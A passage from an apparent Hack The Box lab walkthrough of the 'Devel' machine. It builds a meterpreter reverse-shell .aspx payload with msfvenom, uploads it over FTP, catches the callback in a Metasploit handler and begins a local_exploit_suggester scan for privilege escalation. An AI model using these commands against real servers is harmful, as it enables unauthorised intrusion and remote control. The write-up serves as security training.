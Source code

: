 The nmap scan also shows an ftp file called `aspnet_client`, which indicates the server is running ASP.NET.

We are going to create a meterpreter shell using a program called msfvenom. To start with we can use msfvenom to generate an .aspx program that will run the meterpreter reverse shell. Unlike the Shield box, the server is running ASP.NET, so we will use a .aspx payload.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=6001 -f aspx > revshell.aspx
```

Don't forget to change the LHOST (listening host) to your IP address.

Now we can upload the reverse shell over FTP:

```bash
ftp> put revshell.aspx
local: revshell.aspx remote: revshell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
890982 bytes sent in 0.26 secs (3.3059 MB/s)
```

Now we can open Metasploit with `msfconsole` and create a handler for the reverse shell we uploaded with `use exploit/multi/handler`.

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter_reverse_tcp
payload => windows/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.6
LHOST => 10.10.14.6
msf6 exploit(multi/handler) > set LPORT 6001
LPORT => 6001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.6:6001
```

If we navigate to [http://devel.htb/revshell.aspx](http://devel.htb/revshell.aspx) we should now get a response in our metasploit window.

### Discovery and Privilege Escalation

Now that we have achieved initial access, the process of further enumeration or discovery takes place. We are looking for ways of elevating our user account to adminstrator and gain total ownership of the box. This process is called **privilege escalation** or **priv esc** for short.

In Metasploit, you can run a command that will look for particular vulnerabilities that will lead to privilege escalation. This command is the **"local\_exploit\_suggester**". First, we need to get out of the meterpreter session to get back to the Metasploit prompt by using the background command "bg". We can then use post/multi/local\_exploit\_suggester to scan for vulnerabilities.

```bash
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                  Information            Connection
  --  ----  ----                  -----------            ----------
  1         meterpreter x86/wind  IIS APPPOOL\Web @ DEV  10.10.14.6:6001 -> 10
            ows                   EL                     .10.10.5:49194 (10.10
                                                         .10.5)

```